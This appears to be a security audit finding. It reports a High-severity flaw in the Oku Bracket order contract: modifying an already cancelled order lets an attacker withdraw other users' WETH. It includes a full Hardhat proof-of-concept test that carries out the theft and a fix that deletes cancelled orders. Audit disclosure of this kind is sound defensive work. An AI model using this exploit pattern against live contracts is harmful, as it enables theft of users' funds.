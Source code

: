 Docile Grey Albatross

High

# Funds can be stolen via modifying cancelled orders

## Description
The `Bracket` contract has a vulnerability where cancelled orders can still be modified to steal funds from other active orders ( _Similar logic exists inside `StopLimit.sol` and `OracleLess.sol` too._ ). This occurs because:

1. When an order is cancelled via `cancelOrder()`, [it is removed from the `pendingOrderIds` array but the `Order` struct remains in the `orders` mapping](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/Bracket.sol#L501-L520)
2. The [modifyOrder()](https://github.com/gfx-labs/oku-custom-order-types/blob/b84e5725f4d1e0a1ee9048baf44e68d2e53ec971/contracts/automatedTrigger/Bracket.sol#L216-L233) function only checks that the caller is the original order recipient but does not verify if the order is still active (i.e., present in `pendingOrderIds`)
3. The token refund in `modifyOrder()` uses the contract's total balance without verifying if those specific funds belong to the order being modified.

This enables the following attack scenario:
1. Bob (naive user) creates a legitimate order with 100 WETH
2. Alice (attacker) creates an order with 100 WETH
3. Alice cancels her order (gets her 100 WETH back)
4. The contract still has Bob's 100 WETH
5. Alice calls `modifyOrder()` on her cancelled order and decreases the position size to 50 WETH
6. Since the order struct still exists and Alice is the recipient, she is given back the 50 WETH which are actually Bob's funds.

## Impact
High. This vulnerability allows malicious users to steal funds from legitimate active orders in the system. 

## PoC
Add a new file inside `test/triggerV2` with the following code and run via `npx hardhat test --grep "Test Fund Stealing Vector"` to see it pass.
<details>
<summary>
Click to Expand
</summary>

```js
import { AutomationMaster__factory, Bracket__factory, IERC20__factory, PlaceholderOracle__factory, StopLimit__factory, UniswapV3Pool__factory } from "../../typechain-types"
import { currentBlock, resetCurrentArbBlock } from "../../util/block"
import { expect } from "chai"
import { stealMoney } from "../../util/money"
import { s } from "./scope"
import { ethers } from "hardhat"
import { DeployContract } from "../../util/deploy"
import { a } from "../../util/addresser"  

describe("Test Fund Stealing Vector", () => {
    let bobOrder: bigint
    let aliceOrder: bigint
    const stopDelta = ethers.parseUnits("500", 8)
    const strikeDelta = ethers.parseUnits("100", 8)
    const strikeBips = 500
    const steveBips = 500

    before(async () => {
        console.log("STARTING")
        await resetCurrentArbBlock(235660173)
        console.log("Testing on ARB @", (await currentBlock())?.number)

        //connect to signers
        s.signers = await ethers.getSigners()
        s.Frank = s.signers[0]
        s.Andy = s.signers[1]
        s.Bob = s.signers[2]
        s.Charles = s.signers[3]
        s.Steve = s.signers[4]
        s.Oscar = s.signers[5]
        s.Gary = s.signers[6]

        s.UniPool = UniswapV3Pool__factory.connect(s.pool, s.Frank)
        s.WETH = IERC20__factory.connect(await s.UniPool.token0(), s.Frank)
        s.USDC = IERC20__factory.connect(await s.UniPool.token1(), s.Frank)
        s.ARB = IERC20__factory.connect("0x912CE59144191C1204E64559FE8253a0e49E6548", s.Frank)
        s.UNI = IERC20__factory.connect("0xFa7F8980b0f1E64A2062791cc3b0871572f1F7f0", s.Frank)

        // Deploy contracts using permit2 address from addresser
        s.Master = await DeployContract(new AutomationMaster__factory(s.Frank), s.Frank)
        s.Bracket = await DeployContract(new Bracket__factory(s.Frank), s.Frank, await s.Master.getAddress(), a.permit2)
        s.StopLimit = await DeployContract(
            new StopLimit__factory(s.Frank),
            s.Frank,
            await s.Master.getAddress(),
            await s.Bracket.getAddress(),
            a.permit2
        )

        // Deploy oracles
        s.wethOracle = await new PlaceholderOracle__factory(s.Frank).deploy(await s.WETH.getAddress())
        s.usdcOracle = await new PlaceholderOracle__factory(s.Frank).deploy(await s.USDC.getAddress())
        s.uniOracle = await new PlaceholderOracle__factory(s.Frank).deploy(await s.UNI.getAddress())
        s.arbOracle = await new PlaceholderOracle__factory(s.Frank).deploy(await s.ARB.getAddress())

        // Register contracts
        await s.Master.connect(s.Frank).registerSubKeepers(
            await s.StopLimit.getAddress(),
            await s.Bracket.getAddress()
        )

        // Register oracles
        const tokens = [await s.WETH.getAddress(), await s.USDC.getAddress(), await s.UNI.getAddress(), await s.ARB.getAddress()]
        const oracles = [await s.wethOracle.getAddress(), await s.usdcOracle.getAddress(), await s.uniOracle.getAddress(), await s.arbOracle.getAddress()]
        await s.Master.connect(s.Frank).registerOracle(tokens, oracles)

        // Set parameters
        await s.Master.connect(s.Frank).setMaxPendingOrders(s.maxPendingOrders)
        await s.Master.connect(s.Frank).setMinOrderSize(s.minOrderSize)

        // Set initial prices
        await s.wethOracle.setPrice(s.initialEthPrice)
        await s.usdcOracle.setPrice(s.initialUsdcPrice)
        await s.uniOracle.setPrice(s.initialUniPrice)
        await s.arbOracle.setPrice(s.initialArbPrice)

        //fund Bob and Alice with WETH
        await stealMoney(s.wethWhale, await s.Bob.getAddress(), await s.WETH.getAddress(), s.wethAmount)
        await stealMoney(s.wethWhale, await s.Andy.getAddress(), await s.WETH.getAddress(), s.wethAmount) // Using Andy as Alice
    })

    it("Bob creates legitimate order", async () => {
        const currentPrice = await s.Master.getExchangeRate(await s.WETH.getAddress(), await s.USDC.getAddress())
        
        // Bob creates order
        await s.WETH.connect(s.Bob).approve(await s.Bracket.getAddress(), s.wethAmount)
        await s.Bracket.connect(s.Bob).createOrder(
            "0x",
            currentPrice + strikeDelta,
            currentPrice - stopDelta,
            s.wethAmount,
            await s.WETH.getAddress(),
            await s.USDC.getAddress(),
            await s.Bob.getAddress(),
            5, 
            strikeBips,
            steveBips,
            false,
            "0x"
        )

        // Get Bob's order ID
        const filter = s.Bracket.filters.OrderCreated
        const events = await s.Bracket.queryFilter(filter, -1)
        const event = events[0].args
        bobOrder = event[0]

        // Verify Bob's order
        const order = await s.Bracket.orders(bobOrder)
        expect(order.recipient).to.eq(await s.Bob.getAddress(), "Bob's order")
        expect(await s.WETH.balanceOf(await s.Bracket.getAddress())).to.eq(s.wethAmount, "Contract has Bob's WETH")
    })

    it("Alice creates and cancels order", async () => {
        const currentPrice = await s.Master.getExchangeRate(await s.WETH.getAddress(), await s.USDC.getAddress())
        
        // Initial balance
        const aliceInitialBalance = await s.WETH.balanceOf(await s.Andy.getAddress())

        // Alice creates order
        await s.WETH.connect(s.Andy).approve(await s.Bracket.getAddress(), s.wethAmount)
        await s.Bracket.connect(s.Andy).createOrder(
            "0x",
            currentPrice + strikeDelta,
            currentPrice - stopDelta,
            s.wethAmount,
            await s.WETH.getAddress(),
            await s.USDC.getAddress(),
            await s.Andy.getAddress(),
            5, 
            strikeBips,
            steveBips,
            false,
            "0x"
        )

        // Get Alice's order ID
        const filter = s.Bracket.filters.OrderCreated
        const events = await s.Bracket.queryFilter(filter, -1)
        const event = events[0].args
        aliceOrder = event[0]

        // Verify contract balance increased
        expect(await s.WETH.balanceOf(await s.Bracket.getAddress())).to.eq(s.wethAmount * 2n, "Contract has both orders' WETH")

        // Alice cancels her order
        await s.Bracket.connect(s.Andy).cancelOrder(aliceOrder)

        // Verify Alice got her funds back
        expect(await s.WETH.balanceOf(await s.Andy.getAddress())).to.eq(aliceInitialBalance, "Alice got her WETH back")

        // Verify contract still has Bob's funds
        expect(await s.WETH.balanceOf(await s.Bracket.getAddress())).to.eq(s.wethAmount, "Contract still has Bob's WETH")
    })

    it("Alice steals funds by modifying cancelled order", async () => {
        const stolenAmount = s.wethAmount / 2n // Try to steal half of Bob's WETH

        // Get Alice's balance before the attack
        const aliceBalanceBefore = await s.WETH.balanceOf(await s.Andy.getAddress())

        // Alice modifies her cancelled order to withdraw funds
        await s.Bracket.connect(s.Andy).modifyOrder(
            aliceOrder,
            0, // takeProfit doesn't matter
            0, // stopPrice doesn't matter
            stolenAmount, // amount to steal
            await s.USDC.getAddress(),
            await s.Andy.getAddress(),
            0, // slippage doesn't matter
            0, // slippage doesn't matter
            false,
            false, // decreasing position to steal funds
            "0x"
        )

        // Verify Alice received stolen funds
        const aliceBalanceAfter = await s.WETH.balanceOf(await s.Andy.getAddress())
        expect(aliceBalanceAfter).to.eq(aliceBalanceBefore + stolenAmount, "Alice stole WETH")

        // Verify contract balance decreased by stolen amount
        expect(await s.WETH.balanceOf(await s.Bracket.getAddress())).to.eq(s.wethAmount - stolenAmount, "Contract lost WETH")
    })
})
```

</details>

## Mitigation
Delete the order from the `orders` mapping when cancelling ( _Make similar fix inside `StopLimit.sol` and `OracleLess.sol` too._ ):
```diff
  File: contracts/automatedTrigger/Bracket.sol

   501:              function _cancelOrder(Order memory order) internal returns (bool) {
   502:                  for (uint96 i = 0; i < pendingOrderIds.length; i++) {
   503:                      if (pendingOrderIds[i] == order.orderId) {
   504:                          //remove from pending array
   505:                          pendingOrderIds = ArrayMutation.removeFromArray(
   506:                              i,
   507:                              pendingOrderIds
   508:                          );
   509:                          
   510:                          //refund tokenIn amountIn to recipient
   511:                          order.tokenIn.safeTransfer(order.recipient, order.amountIn);
   512:          
   513:                          //emit event
   514:                          emit OrderCancelled(order.orderId);
-  515:                          
+  515:                          delete orders[order.orderId];
   516:                          return true;
   517:                      }
   518:                  }
   519:                  return false;
   520:              }
```